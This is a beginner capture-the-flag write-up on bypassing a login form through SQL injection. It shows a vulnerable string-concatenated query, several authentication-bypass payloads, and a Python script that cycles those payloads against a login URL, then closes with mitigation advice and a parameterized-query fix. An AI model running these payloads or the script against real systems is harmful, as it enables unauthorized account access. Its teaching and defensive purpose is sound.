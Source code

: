 ```yaml
---
title: 'Web Exploitation Basics: SQL Injection'
description: 'A beginner-friendly walkthrough of SQL injection vulnerabilities in web applications, covering detection, exploitation, and mitigation techniques.'
date: 2025-01-20
tags: ['web', 'sql-injection', 'security', 'beginner']
authors: ['keruenn']
draft: false
---
```


# Web Exploitation Basics: SQL Injection

This writeup covers the fundamentals of SQL injection attacks, one of the most common web application vulnerabilities.

## Challenge Overview

**Challenge Name:** Login Bypass  
**Category:** Web Security  
**Difficulty:** Easy  
**Points:** 50

## Description

You're presented with a login form that appears to be vulnerable to SQL injection. The goal is to bypass authentication and gain access to the admin panel.

## Reconnaissance

First, let's examine the login form:

```html
<form method="POST" action="/login">
    <input type="text" name="username" placeholder="Username">
    <input type="password" name="password" placeholder="Password">
    <button type="submit">Login</button>
</form>
```

## Analysis

The application likely uses a SQL query like this:

```sql
SELECT * FROM users WHERE username = '$username' AND password = '$password'
```

This is vulnerable to SQL injection because user input is directly concatenated into the query.

## Exploitation

### Step 1: Basic SQL Injection

Let's try a classic SQL injection payload:

**Username:** `admin'--`  
**Password:** `anything`

This transforms the query to:
```sql
SELECT * FROM users WHERE username = 'admin'--' AND password = 'anything'
```

The `--` comments out the password check, allowing us to login as admin.

### Step 2: Alternative Payloads

Other effective payloads include:

```sql
admin' OR '1'='1'--
admin' OR 1=1#
admin' UNION SELECT 1,1,1--
```

### Step 3: Automated Testing

Here's a Python script to test multiple payloads:

```python
import requests

payloads = [
    "admin'--",
    "admin' OR '1'='1'--",
    "admin' OR 1=1#",
    "' OR '1'='1'--",
    "' OR 1=1#"
]

for payload in payloads:
    data = {
        'username': payload,
        'password': 'test'
    }
    response = requests.post('http://target.com/login', data=data)
    if 'welcome' in response.text.lower():
        print(f"Success with payload: {payload}")
        break
```

## Flag

`flag{sql_injection_is_easy_but_dangerous}`

## Key Takeaways

1. **Never trust user input** - Always validate and sanitize
2. **Use parameterized queries** - Prepared statements prevent SQL injection
3. **Input validation** - Implement proper input validation and filtering
4. **Error handling** - Don't expose database errors to users

## Mitigation

### Secure Code Example

```python
# Vulnerable code
query = f"SELECT * FROM users WHERE username = '{username}' AND password = '{password}'"

# Secure code using parameterized queries
query = "SELECT * FROM users WHERE username = %s AND password = %s"
cursor.execute(query, (username, password))
```

### Additional Security Measures

- Use ORM (Object-Relational Mapping) frameworks
- Implement input validation and sanitization
- Apply the principle of least privilege
- Regular security testing and code reviews

## References

- [OWASP SQL Injection Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html)
- [PortSwigger SQL Injection Tutorial](https://portswigger.net/web-security/sql-injection)
- [SQLMap Tool Documentation](https://sqlmap.org/)
